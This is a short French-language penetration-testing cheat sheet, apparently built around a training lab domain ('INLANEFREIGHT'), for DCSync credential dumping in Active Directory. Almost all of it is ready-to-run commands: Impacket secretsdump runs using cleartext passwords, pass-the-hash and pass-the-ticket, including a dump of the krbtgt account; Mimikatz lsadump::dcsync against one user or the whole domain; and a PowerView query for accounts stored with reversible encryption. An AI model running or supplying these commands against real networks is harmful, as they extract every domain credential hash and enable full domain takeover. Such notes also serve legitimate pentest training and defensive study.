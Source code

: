 
> [!TIP]
> Se fait passer pour un contrôleur de domaine et demande au DC de répliquer la base NTDS
> Possible d'obtenir des identifiants en clair si le paramètre 'Reversible Encryption' est appliqué à l'utilisateur


# LINUX

## *Impacket*

avec creds en clair

```shell
impacket-secretsdump -outputfile inlanefreight_hashes -just-dc -user-status -history -pwd-last-set INLANEFREIGHT/adunn@172.16.5.5
```

Pass the hash

```shell
impacket-secretsdump -outputfile inlanefreight_hashes -just-dc -user-status -history -pwd-last-set INLANEFREIGHT/adunn@172.16.5.5 -hashes ':NTHASH'
```

Pass the ticket

```shell
impacket-secretsdump -outputfile inlanefreight_hashes -just-dc -user-status -history -pwd-last-set -k -no-pass dc.target.local
```


target KRBTGT account

```bash
impacket-secretsdump -outputfile inlanefreight_hashes -just-dc-user inlanefreight/krbtgt -user-status -history -pwd-last-set INLANEFREIGHT.LOCAL/solarwindsmonitor@172.16.5.5
```



# WINDOWS

Se mettre dans le contexte de la session utilisateur.

```cmd
runas /netonly /user:INLANEFREIGHT\adunn powershell
```

## Mimikatz

### DCSync

```powershell-session
.\mimikatz.exe
```

```powershell-session
privilege::debug
```

Target un user

```powershell-session
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```

Dump toute la base

```powershell-session
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /all /csv
```


## PowerView

Check si un user a bien l'option Reversible Encryption activée

```powershell-session
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```
